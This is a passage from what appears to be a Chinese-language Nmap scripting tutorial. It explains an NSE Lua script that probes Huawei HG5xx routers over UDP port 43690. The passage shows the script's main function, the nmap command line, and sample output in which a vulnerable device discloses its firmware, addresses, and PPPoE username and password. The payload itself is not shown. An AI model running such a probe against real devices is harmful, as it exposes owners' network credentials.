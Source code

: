 1.  添加主要方法，加载并发送 UDP 负载：

```
action = function(host, port)
  local timeout = stdnse.get_script_args(SCRIPT_NAME..".timeout") or 3000
  local payload = load_udp_payload()
  local response = send_udp_payload(host.ip, timeout, payload)
  if response then
    return parse_resp(response)
  end
end
```

1.  您可以使用以下命令运行最终脚本：

```
# nmap -sU -p43690 --script huawei-hg5xx-udpinfo <target>

```

一个有漏洞的设备将返回以下输出：

```
PORT      STATE         SERVICE REASON
-- 43690/udp open|filtered unknown no-response
-- |_huawei5xx-udp-info: |\x10||||||||<Firmware version>|||||||||||||||||||||||||||||||<MAC addr>|||<Software version>||||||||||||||||||||||||||||||||||||||||||||| <local ip>|||||||||||||||||||<remote ip>||||||||||||||||||<model>|||||||||||||||<pppoe user>|||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||<pppoe password>
```

## 工作原理...

我们的脚本`huawei-hg5xx-udpinfo`使用别名`shortport.portnumber(ports, protos, states)`定义了执行规则。如果 UDP 端口 43690 是`open`、`open|filtered`或`filtered`，我们的脚本将运行：

```
portrule = shortport.portnumber(43690, "udp", {"open", "open|filtered","filtered"})
```

您可以以几种不同的方式读取 NSE 参数，但推荐的函数是`stdnse.get_script_args()`。这允许多个赋值，并支持快捷赋值（您不必在参数名之前输入脚本名称）：

```
local timeout = stdnse.get_script_args(SCRIPT_NAME..".timeout") or 3000
```

NSE 套接字由`nmap`库管理。要创建一个 NSE 套接字，使用函数`nmap.new_socket()`，要连接到这个套接字，使用`connect()`：

```
local socket = nmap.new_socket("udp")
socket:set_timeout(tonumber(timeout))
local status = socket:connect(ip, HUAWEI_UDP_PORT, "udp")
```

我们发送我们的 UDP 负载如下：

```
status = socket:send(payload)
```
